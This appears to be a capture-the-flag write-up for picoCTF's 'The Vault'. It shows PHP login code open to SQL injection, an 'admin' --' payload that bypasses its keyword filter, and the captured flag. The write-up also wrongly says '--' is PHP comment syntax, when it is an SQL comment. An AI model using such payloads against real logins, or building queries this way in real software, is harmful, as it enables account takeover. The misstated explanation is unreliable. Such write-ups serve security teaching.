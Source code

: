 # The Vault - Points: 250

1. First, lets go through the website : http://2018shell.picoctf.com:22430/
2. Then, we check the source code : 
    ```
    <?php
      ini_set('error_reporting', E_ALL);
      ini_set('display_errors', 'On');

      include "config.php";
      $con = new SQLite3($database_file);

      $username = $_POST["username"];
      $password = $_POST["password"];
      $debug = $_POST["debug"];
      $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

      if (intval($debug)) {
        echo "<pre>";
        echo "username: ", htmlspecialchars($username), "\n";
        echo "password: ", htmlspecialchars($password), "\n";
        echo "SQL query: ", htmlspecialchars($query), "\n";
        echo "</pre>";
      }

      //validation check
      $pattern ="/.*['\"].*OR.*/i";
      $user_match = preg_match($pattern, $username);
      $password_match = preg_match($pattern, $username);
      if($user_match + $password_match > 0)  {
        echo "<h1>SQLi detected.</h1>";
      }
      else {
        $result = $con->query($query);
        $row = $result->fetchArray();

        if ($row) {
          echo "<h1>Logged in!</h1>";
          echo "<p>Your flag is: $FLAG</p>";
        } else {
          echo "<h1>Login failed.</h1>";
        }
      }

    ?>
    ```
    As you can see, there are some keywords, which are forbidden. After thinking for a while, I come up a payload : 
    ```
    username : admin' --
    password : 123
    ```
    The main reason is "--" means as same as "//" or "#" in php and the filter didn't handle this.
3. Here is the flag : picoCTF{w3lc0m3_t0_th3_vau1t_06857925}
